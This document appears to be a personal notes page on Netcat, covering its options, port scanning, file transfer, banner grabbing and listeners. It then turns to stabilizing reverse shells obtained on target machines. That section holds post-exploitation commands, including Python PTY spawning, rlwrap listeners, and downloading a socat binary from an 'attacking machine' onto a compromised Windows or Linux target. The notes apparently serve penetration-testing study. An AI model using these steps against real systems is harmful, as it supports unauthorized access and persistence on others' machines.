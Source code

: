 Netcat is a networking tool that's used for reading from and writing to network connections using TCP or UDP

* Can function as a client that connects to a listening port
* Can function as a server that listens on a port of your choice

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Options

| Netcat Option | Purpose |
| --- | --- |
| -l | Listen mode |
| -p | Specify the port number (Port numbers less than 1024 require root privileges to listen on) |
| -n | Numeric only (No resolution of hostnames via DNS) |
| -v | Verbose output |
| -vv | Very verbose output |
| -k | Keep listening after a client disconnects from the port |

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Features

| Netcat Feature | Description | 
| --- | --- |
| Port Scanning | Scan for open ports on a target system |
| File Transfer | Send and receive files between two hosts |
| Chatting | Create a simple chat server between two hosts |
| Port Listening | Listen on a specific port for incoming connections |
| Banner Grabbing | Fetch information from services running on open ports |
| Proxying | Can act as a simple network proxy |

## Port Scanning 

```Bash
nc -zv <hostname> <port_range>
```

## File Transfer 

```Bash
# From sender's machine
nc -lp <port_number> < <file_to_send>

# From receiver's machine
nc <hostname> <port_number> > <file_to_receive> 
```

## Chatting

```Bash
# From listening machine
nc -lp <port_number>

# From connecting machine
nc <hostname> <port_number>
```

## Port Listening (Netcat as a Server)

```Bash
nc -lvnp <port_number>
```

## Banner Grabbing (Netcat as a Client)

```Bash
nc <hostname> <port_number>
```

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Shell Stabilization

* Non-interactive by default
* Very unstable by default (Ex: *Pressing CTRL + C kills the whole thing*) due to netcat shells being processes running inside a terminal, rather than being bonafide terminals 

## Netcat Shell Stabilization Using Python

```Bash
# 1. Spawn a better featured shell using Python
python -c 'import pty;pty.spawn("/bin/bash")'

# 2. Give yourself access to term commands
export TERM=xterm

# 3. CTRL + Z to background the shell

# 4. Turn off our own terminal echo and then foreground the shell
stty raw -echo; fg
```

* Only applicable to Linux boxes since they nearly always have Python installed by default
* Return your own terminal back to normal by entering `reset` in your own terminal

## Netcat Shell Stabilization Using rlwrap

```Bash
# 1. Install rlwrap
sudo apt -y install rlwrap

# 2. Use rlwrap to invoke a slightly different listener
rlwrap nc -lvnp <port_number>
```

* rlwrap gives us access to history, tab autocompletion, and the arrow keys immediately upong receiving a shell (Some manual stabilisation may be required if you want to be able to use CTRL + C inside the shell)
* Particularly used when dealing with Windows shells since they're usually difficult to stabilise

## Netcat Shell Stabilization Using Socat

```Bash
# 1. Create a webserver on the attacking machine inside the directory containing your socat static compiled binary
sudo python3 -m http.server 80

```Bash
# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
wget <attacking_machine_address>/<socat_static_compiled_binary_file> -O /tmp/socat
```

```PowerShell
# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
Invoke-WebRequest -uri <attacking_machine_address>/<socat_static_compiled_binary_file>.exe -outfile C:\\Windows\temp\socat.exe
```

* Limited to Linux targets (Socat shells on Windows are usually no more stable than a netcat shell)

